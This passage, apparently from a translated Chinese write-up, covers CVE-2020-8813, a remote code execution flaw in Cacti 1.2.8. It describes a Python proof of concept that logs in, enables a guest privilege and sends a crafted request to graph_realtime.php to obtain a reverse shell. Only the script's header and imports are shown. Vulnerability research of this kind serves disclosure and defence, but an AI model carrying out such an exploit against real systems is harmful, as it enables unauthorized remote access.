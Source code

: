 然后将其发送到应用程序以获取以下信息：

![image](img/81c99cdb7b1647adb5ee0d21c658b5c6.png)

### 完整版的poc

为了自动化利用过程，我编写了一个python代码来利用此漏洞，利用此漏洞将处理登录过程以启用“来宾实时图”特权，然后将生成有效负载并将精心制作的请求发送到“ graph_realtime.php”页面为了获得反向壳。

这是完整的利用代码：

```
#!/usr/bin/python3

# Exploit title: "Cacti v1.2.8 Remote Code Execution"

# Date: 03/02/2020

# Exploit Author: Askar (@mohammadaskar2)

# CVE: CVE-2020-8813

# Vendor Homepage: [https://cacti.net/](https://cacti.net/)

# Version: v1.2.8

# Tested on: CentOS 7.3 / PHP 7.1.33

import requests

import sys

import warnings

from bs4 import BeautifulSoup

from urllib.parse import quote

warnings.filterwarnings(“ignore”, category=UserWarning, module=‘bs4’)

```